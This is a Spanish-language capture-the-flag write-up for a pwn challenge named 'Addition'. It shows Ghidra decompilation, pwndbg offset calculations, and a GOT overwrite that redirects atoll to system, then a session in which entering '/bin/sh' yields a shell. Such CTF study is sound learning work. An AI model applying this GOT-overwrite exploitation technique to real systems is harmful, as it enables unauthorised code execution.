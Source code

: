 # Addition

En esta ocasión nos dan un binario que parece estar en un bucle, en donde nos piden una dirección y un valor.

```c
./vuln                                                      
+++++++++++++++++++++++++++
    WELCOME TO ADDITION
+++++++++++++++++++++++++++
add where? 0xdeadbeef
add what? hola
```

Si miramos qué está pasando en Ghidra podremos ver lo siguiente:

```c
void main(void)

{
  longlong lVar1;
  longlong lVar2;
  long in_FS_OFFSET;
  char input [24];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  setbuf(stdin,(char *)0x0);
  setbuf(stdout,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("+++++++++++++++++++++++++++");
  puts("    WELCOME TO ADDITION");
  puts("+++++++++++++++++++++++++++");
  do {
    write(1,"add where? ",0xb);
    fgets(input,0x10,stdin);
    lVar1 = atoll(input);
    write(1,"add what? ",10);
    fgets(input,0x10,stdin);
    lVar2 = atoll(input);
    *(longlong *)(&buf + lVar1) = lVar2 + *(long *)(&buf + lVar1);
  } while (lVar1 != 0x539);
  FUN_001010f0(0);
                    /* WARNING: Bad instruction - Truncating control flow here */
  halt_baddata();
}
```

El código solo tiene una función. Efectivamente, nos piden una dirección y, a continuación, un valor para introducir en esa dirección. Pasa una cosa: esa dirección que nos piden no es absoluta y el valor tampoco. Con esto quiero decir que, si vemos la siguiente línea:

```c
*(longlong *)(&buf + lVar1) = lVar2 + *(long *)(&buf + lVar1);
```

Podemos ver que nuestro input se suma en ambos casos y termina siendo relativo a `&buf`.

Si comprobamos las protecciones podemos ver que hay Partial RELRO:

```c
Arch:     amd64
RELRO:      Partial RELRO
Stack:      No canary found
NX:         NX enabled
PIE:        PIE enabled
SHSTK:      Enabled
IBT:        Enabled
Stripped:   No
```

Esto implica que el GOT se puede sobreescribir. Si miramos el código en Ghidra podemos ver la siguiente línea:

```c
lVar1 = atoll(input);
```

Cada input que introducimos pasa por la función `atoll`, que es un conversor de ASCII a long. Esa función recibe un parámetro que controlamos. Si conseguimos sustituir ese `atoll` por un `system` y le pasamos como argumento `/bin/sh`, podemos conseguir una shell.

Ahora, ¿cómo podemos hacerlo? Ya que tenemos Partial RELRO, podemos cambiar el puntero del GOT de `atoll` por el de `system`. Para eso necesitamos saber antes cuál es la distancia entre `&buf` (el punto desde donde empezamos a escribir si ponemos 0 en el address, que recordemos que es relativo) y el GOT de `atoll`.

```c
pwndbg> x &buf
0x555555558069:	0x00000000
pwndbg> got
. . .
[0x555555558020] atoll@GLIBC_2.2.5 -> 0x555555555070 ◂— endbr64 
. . .
pwndbg> x 0x555555558069 - 0x555555558020
0x49:	Cannot access memory at address 0x49
pwndbg> 
```

Como podemos ver, `atoll` está 73 bytes detrás de donde empezamos a escribir. Esto quiere decir que, si ponemos como primer parámetro `-73`, estaremos escribiendo en el puntero de `atoll`.

Ahora nos queda saber qué poner en atoll. Como hemos visto, lo de asignar valor también es relativo, así que vamos a tener que sacar cuánto le falta a `atoll` para llegar a `system`.

```c
pwndbg> x &system
0x7ffff7c50d60 <__libc_system>:	0xfa1e0ff3
pwndbg> x &atoll
0x7ffff7c43670 <atoll>:	0xfa1e0ff3
pwndbg> x 0x7ffff7c50d60 - 0x7ffff7c43670
0xd6f0:	Cannot access memory at address 0xd6f0
```

Como podemos ver, hay `0xd6f0` bytes, pero el programa trabaja con `longs`, así que se lo vamos a tener que pasar como entero:

```python
python3
>>> 0xd6f0
55024
```

¡Perfecto! Con estos datos podemos hacer que el GOT de `atoll` apunte a `system`. Recordemos que en el código está esto:

```c
atoll(nuestro_input)
```

Así que, si primero hacemos el cambio de `atoll` a `system`, y luego introducimos `/bin/sh`, el programa hará esto:

```c
system("/bin/sh")
```

Y conseguiremos una shell. Vamos a comprobarlo:

```c
+++++++++++++++++++++++++++
    WELCOME TO ADDITION
+++++++++++++++++++++++++++
add where? $ -73
add what? $ 55024
add where? $ /bin/sh
$ whoami
ub1cu0
$  
```

¡Tenemos shell!
